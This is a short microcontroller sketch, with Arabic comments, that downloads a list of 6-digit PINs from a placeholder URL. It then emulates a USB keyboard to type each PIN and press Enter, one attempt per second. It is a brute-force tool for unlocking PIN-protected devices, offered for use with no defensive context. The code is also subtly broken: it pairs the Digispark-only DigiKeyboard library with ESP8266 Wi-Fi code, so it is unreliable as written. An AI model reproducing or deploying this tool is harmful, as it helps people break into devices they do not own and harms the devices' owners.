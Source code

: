 #include <ESP8266WiFi.h>
#include <ESP8266HTTPClient.h>
#include "DigiKeyboard.h"

const char* ssid = "YOUR_SSID";          // ضع اسم الشبكة هنا
const char* password = "YOUR_PASSWORD";  // ضع كلمة المرور هنا
const char* url = "http://example.com/pinlist.txt";  // ضع رابط قائمة الأرقام هنا

int num[] = {39, 30, 31, 32, 33, 34, 35, 36, 37, 38}; // keycodes للأرقام من 0-9

String pinList;
int currentPinIndex = 0;
bool key_stroke_f = false;

void setup() {
    Serial.begin(115200);
    DigiKeyboard.update();
    DigiKeyboard.sendKeyStroke(0);
    delay(3000);

    WiFi.begin(ssid, password);
    Serial.print("Connecting to WiFi...");
    while (WiFi.status() != WL_CONNECTED) {
        delay(1000);
        Serial.print(".");
    }
    Serial.println("Connected to WiFi");

    pinList = fetchPinList(url);
}

void loop() {
    if (currentPinIndex >= pinList.length() / 6) {
        Serial.println("All pins tried.");
        while (true) {
            delay(1000);
        }
    }

    String pin = pinList.substring(currentPinIndex * 6, (currentPinIndex + 1) * 6);
    sendPin(pin);
    log_attempt(pin, false);

    delay(1000);
    currentPinIndex++;
}

String fetchPinList(const char* url) {
    HTTPClient http;
    http.begin(url);
    int httpCode = http.GET();

    if (httpCode > 0) {
        if (httpCode == HTTP_CODE_OK) {
            return http.getString();
        }
    }
    http.end();
    return "";
}

void sendPin(String pin) {
    for (int i = 0; i < pin.length(); i++) {
        DigiKeyboard.sendKeyStroke(num[pin[i] - '0']);
    }
    DigiKeyboard.sendKeyStroke(40);
}

void log_attempt(String pin, bool success) {
    Serial.print("Attempt: ");
    Serial.print(pin);
    Serial.print(" - ");
    if (success) {
        Serial.println("SUCCESS");
    } else {
        Serial.println("FAIL");
    }
}
